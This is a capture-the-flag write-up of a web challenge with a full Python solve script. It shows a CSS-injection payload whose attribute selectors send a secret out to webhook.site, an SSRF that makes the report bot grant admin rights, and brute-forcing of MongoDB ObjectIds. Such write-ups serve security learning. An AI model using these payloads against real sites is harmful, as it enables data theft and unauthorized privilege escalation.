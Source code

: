 ```yaml
---
created: 2024-07-27T02:55
updated: 2024-07-28T02:16
tags:
  - css-injection
---
```


> Color your username colorful!

## First Part

To access the admin's username, we can use the value of edit page's `<input>`.
`/post/edit/{pid}`

```html
<p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

### CSS Injection

To do this I decided to use CSS selectors, because `xss` has prevented naïve XSS methods.

```css
input.user[value^="DEAD{flag_"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_');
}
```

If I received a request, that means the flag indeed starts with that sequence, we can also use multiple rules like this each with a different url query so I would know which rule in particular activated.

```css
input.user[value^="DEAD{flag_a"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_a');
}
input.user[value^="DEAD{flag_b"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_b');
}
input.user[value^="DEAD{flag_c"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_c');
}
```

After we receive a request, we update the payload with the new found char, and guess the next char.

### Payload

We will register a new account for every attempt, and add multiple CSS rules checking multiple "next character".

The payload is placed inside `personalColor`, as we can see, that's the only place where triple bar (i.e. no escape) is used.

```css
.author {
    color: {{{ author.personalColor }}}
}

.user {
    color: {{{ user.personalColor }}}
}
```

The backend uses `xss` library which will escape all occurrences of `<>` and I think it is not possible to exit the `<style>` tag.
## Second Part

To view notices we have to be admins, we can make the report bot grant us admin rights.

This is a simple SSRF to `https://TARGET/admin/report?url=http://localhost:1337/admin/grant?username=USERNAME`.

After logging out and logging in again, we can now see the notice page, where we can find the mongoose id of the two entries sandwiching the flag.

`66a4b8f9d40a5a2b039f2d68 66a4b8ffd40a5a2b039f2d6a`
### Find flag's id
But flag's id is hidden, how would we find it?

```js
await delay(randomDelay());
await db.notices.insertOne({ title: "asdf", content: "asdf" });

await delay(randomDelay());
await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

await delay(randomDelay());
await db.notices.insertOne({ title: "qwer", content: "qwer" });
```

Mongoose ids are actually encoded timestamps, so by exploring all "in-between" values, we can find the flag's id.
## Solve Script

To solve the first part, you have to start run the script every time you add a new character.

I've heard of easier & faster recursive `@import` methods but thought this is simpler.

```python
import urllib.parse
import re
import string
import random
import requests


def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))


target = "39c1490373bbf326a5023003.deadsec.quest"


def register(s, user, passw, payload):
    s.post(f"https://{target}/auth/register", json={"username": user,
                                                    "password": passw,
                                                    "personalColor": payload})


def login(s, user, passw):
    r = s.post(f"https://{target}/auth/login", json={"username": user, "password": passw})
    s.cookies.set('accessToken', r.json()['accessToken'])


def gain_admin(s, user):
    r = s.get(f"https://{target}/admin/report?url=http://localhost:1337/admin/grant?username={user}").json()
    print("gain_admin", r)


def notice_ids(s):
    r = s.get(f"https://{target}/admin/notice/").text
    g = re.findall(r"/admin/notice/([a-f0-9]+)", r)
    id1, id2 = g
    print("found ids", id1, id2)
    d1 = int(id1[:8], 16)
    d2 = int(id2[:8], 16)
    p1 = int(id1[8:], 16)
    p2 = int(id2[8:], 16)
    print("trying a total of", (d2-d1+1)*(p2-p1+1), "combinations")  # probably not need that many
    for _1 in range(d1, d2+1):
        for _2 in range(p1, p2+1):
            try:
                r = s.get(f"https://{target}/admin/notice/{_1:08x}{_2:016x}").text
                if "flag" in r:
                    f = re.search(r"<div class=\"post-content\">([^<]+)", r).group(1).strip()
                    print("flag part 2", f)
            except:
                pass


def report_post(s):
    pid = s.get(f"https://{target}/post/all").json()[0]['_id']
    url = f"http://localhost:1337/post/edit/{pid}"
    s.get(f"https://{target}/admin/report?url={urllib.parse.quote(url)}")


def make_post(s):
    s.post(f"https://{target}/post/write", json={"title": "test", "content": "test"})


def str_to_css_hex(s):
    special_characters = r'[_]'
    return re.sub(special_characters, lambda match: f'\\{ord(match.group(0)):04x}', s)


def tryFlag(pres):
    s = requests.session()
    try:
        print("trying", pres)
        user = id_generator(7)
        passw = id_generator(7)
        _pres = '\n'.join([f"""input.user[value^="{pre}"]{{
background: url('https://webhook.site/?prefix={urllib.parse.quote(pre)}');
}}""" for pre in pres])
        payload = f"""
#000;}}
{_pres}
*{{""".strip()
        register(s, user, passw, payload)
        login(s, user, passw)
        make_post(s)
        report_post(s)
        print("done", pres)
    except Exception as e:
        print('error!', e)
        tryFlag(pres)
        return None


def extendFlag(flag_pre):
    w_size = 25
    for I in range(0, len(string.printable), w_size):
        chrs = [string.printable[I+i] for i in range(min(w_size, len(string.printable)-I))]
        pres = [str_to_css_hex(flag_pre+c) for c in chrs]
        random.shuffle(pres)
        tryFlag(pres)


def second_part():
    s = requests.session()
    register(s, "kumo", "kumo", "#000")
    login(s, "kumo", "kumo")
    print("login")
    gain_admin(s, "kumo")
    s.cookies.clear()
    login(s, "kumo", "kumo")
    notice_ids(s)


# extendFlag("DEAD{")
second_part()   # c010rful_w3b_with_c55}
```

```flag
DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}
```

## Failed Attempts

- Using selection hash `#:~:text={urllib.parse.quote(flag)}` didn't work on remote for some reason, worked on local browser.
- Using svg ligatures generated fonts, and look for scrollbars also didn't work for some reason, the scrollbar selector always activates.
- I spent 90% of the time trying to leak the view page, and totally forgot the edit page has a input element.
